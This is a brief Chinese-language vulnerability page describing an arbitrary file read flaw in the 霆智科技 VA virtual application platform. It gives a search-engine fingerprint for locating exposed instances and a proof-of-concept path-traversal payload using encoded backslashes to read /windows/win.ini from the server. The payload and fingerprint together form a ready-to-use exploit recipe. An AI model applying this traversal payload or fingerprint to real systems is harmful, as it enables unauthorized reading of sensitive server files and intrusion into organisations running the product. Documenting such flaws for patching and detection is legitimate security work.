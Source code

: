 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

<a-checkbox checked>霆智科技 VA虚拟应用平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="EAA益和应用接入系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1683073057116-3fcea542-7aec-4fde-9ad1-ba4ec639c17e.png)

验证POC

```python
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![img](../../../.vuepress/public/img/1683073234358-a1e4cecc-48c7-4509-b2cb-70d0bfaa9fc6.png)
